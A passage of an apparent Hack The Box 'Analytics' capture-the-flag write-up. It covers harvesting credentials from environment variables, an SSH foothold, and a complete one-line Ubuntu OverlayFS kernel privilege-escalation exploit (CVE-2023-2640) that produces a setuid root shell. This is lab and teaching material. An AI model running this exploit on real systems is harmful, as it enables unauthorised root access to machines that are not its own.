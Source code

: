 ![Alt Text](/assets/images/HTB/Analytics/Analitics3.png)


Before sending the Burp request (payload), we set up a listener on port 443 to capture the reverse shell.

![Alt Text](/assets/images/HTB/Analytics/Analitics5.png)

## Privilege escalation - Root.

Something that i usually do when i get to a new system is to check the *enviroment variables* some times we can find useful information in there.

```bash
env
```

![Alt Text](/assets/images/HTB/Analytics/Analitics6.png)

Inspecting the environment variables revealed application(metabase) credentials:
•	User: metalytics
•	Password: An4lytics_ds20223#

Using these credentials, we accessed the system via SSH to gain a more stable foothold:
bash
```bash
ssh metalytics@10.10.11.233
```

### Kernel Exploit for Privilege Escalation
#### Finding kernel version
The target machine was running **Ubuntu 22.04.2**. A quick search revealed a privilege escalation vulnerability (CVE-2023-2640) in the kernel. This can be found either by using similar tools to linpeas.sh or using linux commands:

```bash
uname -a
```
![Alt Text](/assets/images/HTB/Analytics/Analitics7.png)

After trying out multiple exploits I was able to find a [working exploit.](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

#### Running exploit
The exploit involved leveraging unshare to execute a privileged shell. 
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

![Alt Text](/assets/images/HTB/Analytics/Analytics8.png)
